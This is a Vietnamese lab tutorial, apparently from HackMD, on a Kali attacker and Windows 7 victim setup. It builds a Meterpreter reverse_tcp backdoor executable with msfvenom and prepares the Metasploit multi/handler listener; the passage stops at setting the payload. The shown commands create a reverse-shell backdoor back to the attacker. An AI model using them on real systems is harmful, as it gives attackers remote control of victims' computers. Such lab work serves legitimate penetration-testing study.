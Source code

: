 | Host                    | IP address       | MAC address         |
| ----------------------- | ---------------- | ------------------- |
| `Kali linux` (Attacker) | `192.176.45.101` | `34:6f:24:18:c9:2f` |
| `Window 7` (Victim)     | `192.176.45.102` | `0c:84:dc:f5:3c:79` |
| `Default Gateway`       | `192.176.45.1`   | `c0:61:18:e2:ef:72` |

- đầu tiên trên máy attacker mình tạo 1 file RCE với LHOST là địa chỉ máy kali linux LPORT là port sẽ nghe thông tin trả về
- và mình sẽ lưu file backdoor này vào Desktop

```bash!
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.176.45.101 LPORT=4444 -f exe -o /home/cuong/Desktop/backdoor_msf.exe
```

![ảnh](https://hackmd.io/_uploads/B15KE8CAT.png)

- sau khi tạo xong backdoor mình sẽ thiết lập nó trên metasploit

![ảnh](https://hackmd.io/_uploads/S1Tb4KRAp.png)

- mình vào msfconsole và kiểm tra database đã được kết nối chưa bằng lệnh **db_status**

![ảnh](https://hackmd.io/_uploads/rJPuBL0AT.png)

- thấy CSDL postgre chưa được kết nối mình sẽ restart lại nó và reinit lại database của MSF
- trước hết chúng ta cần khởi chạy postgresql

```bash!
systemctl start postgresql
service postgresql start
```

- Lí do chúng ta cần khởi động PostgreSQL database trước khi chạy Metasploit là vì Metasploit sử dụng PostgreSQL database để tự động lưu lại những kết quả thu được trong quá trình bạn pentest.

![ảnh](https://hackmd.io/_uploads/SkVIUL0Ap.png)

- lúc này Postgre đã được kết nối

![ảnh](https://hackmd.io/_uploads/r1udL8RCa.png)

- để thiết lập backdoor vừa tạo mình vào thư mục handler

```bash
use exploit/multi/handler

```

![ảnh](https://hackmd.io/_uploads/SyBBPI0C6.png)

- vào set payload để điều khiển backdoor vửa tạo trên Window 7

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
```
